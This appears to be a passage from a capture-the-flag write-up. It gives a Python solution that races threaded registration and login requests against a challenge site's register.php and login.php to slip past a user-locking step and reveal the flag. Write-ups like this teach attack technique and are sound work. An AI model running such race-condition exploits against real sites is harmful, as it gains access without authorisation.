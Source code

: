   ### The solution

  Quite straightforward: we setup two threads and we try to login and get to the home page of the website while the registration is still ongoing in order to be faster than the `fix_user` function, which would block access to the database.

  ```python
  def registration(s, user, password):
    url = "%s/register.php" % HOST
    r = s.post(url, data={'username': user, 'password_1': password, 'password_2': password, 'reg_user': ''})
    #get_body(r)
    if "Registration Completed!" in r.text:
      return True
    return False

  def login(s, user, password):
    url = "%s/login.php" % HOST
    r = s.post(url, data={'username': user, 'password': password, 'log_user' : ''})
    r = s.get(HOST)
    if 'flag{' in r.text:
      get_body(r)

  print('setting up session...')
  s = Session()
  print('starting loop...')
  while True:
    username = randomString(10)
    password = randomString(10)
    r = threading.Thread(target=registration, args=(s, username, password))
    l = threading.Thread(target=login, args=(s, username, password))
    r.start()
    l.start()
  ```
